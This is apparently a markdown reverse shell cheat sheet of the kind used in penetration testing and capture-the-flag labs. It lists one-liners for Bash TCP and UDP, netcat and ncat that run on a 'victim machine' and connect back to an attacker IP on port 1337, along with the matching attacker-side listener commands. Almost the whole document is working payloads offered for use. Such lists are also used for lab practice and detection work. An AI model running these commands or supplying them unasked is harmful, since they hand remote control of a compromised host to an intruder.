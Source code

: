 #### Bash TCP <a name='basht'></a>
```bash
# on the victim machine
# 1.syntax: bash -i >& /dev/tcp/{attacker IP}/{port} 0>&1
bash -i >& /dev/tcp/10.10.14.32/1337 0>&1

# 2.syntax: /bin/bash/ -i > dev/tcp/{attacker IP}/{port} 0<& 2>&1
/bin/bash -i > /dev/tcp/10.10.14.32/1337 0<& 2>&1

# 3.syntax: exec 5<>/dev/tcp/{attacker IP}/{port};cat <&5 | while read line; do $line 2>&5 >&5; done
exec 5<>/dev/tcp/10.10.14.32/1337;cat <&5 | while read line; do $line 2>&5 >&5; done

# 4.syntax: exec /bin/sh 0</dev/tcp/{attacker IP}/{port} 1>&0 2>&0
exec /bin/sh 0</dev/tcp/10.10.14.32/1337 1>&0 2>&0

# 5.syntax: 0<&196;exec 196<>/dev/tcp/{attacker IP}/{port}; sh <&196 >&196 2>&196
0<&196;exec 196<>/dev/tcp/10.10.14.32/1337; sh <&196 >&196 2>&196

# on attacker machine
# syntax: nc -lvnp {port}
nc -lvnp 1337
```

#### Bash UDP <a name='bashu'></a>
```bash 
# on the victim machine
# syntax: sh -i >& /dev/udp/{attacker IP}/{port} 0>&1
sh -i >& /dev/udp/10.10.14.32/1337 0>&1

# on attacker machine
# syntax: nc -u -lvp {port}
nc -u -lvp 1337
```

#### NetCat <a name='nc'></a>
```bash
# 1.syntax: nc -e /bin/sh {attacker IP} {port}
nc -e /bin/bash 10.10.14.32 1337

# 2.syntax: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {attacker IP} {port} >/tmp/f
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.32 1337 >/tmp/f

# 3.syntax: mknod backpipe p && nc {attacker IP} {port} 0<backpipe | /bin/bash 1>backpipe
mknod backpipe p && nc 10.10.14.32 1337 0<backpipe | /bin/bash 1>backpipe

# on the attacker machine
# syntax: nc -lvnp {port}
nc -lvnp 1337 
```

#### NCat <a name='ncat'></a>
```bash
# on the victim machine
# 1.TCP Syntax: ncat {attacker IP} {port} -e /bin/bash
ncat 10.10.14.32 1337 -e /bin/bash

# 2.UDP Syntax: ncat --udp {attacker IP} {port} -e /bin/bash
ncat --udp 10.10.14.32 1337 -e /bin/bash

# on the attacker machine
# 1.TCP Listen syntax: ncat -l {port}
ncat -l 1337

# 2.UDP Listen syntax: ncat -u {port}
```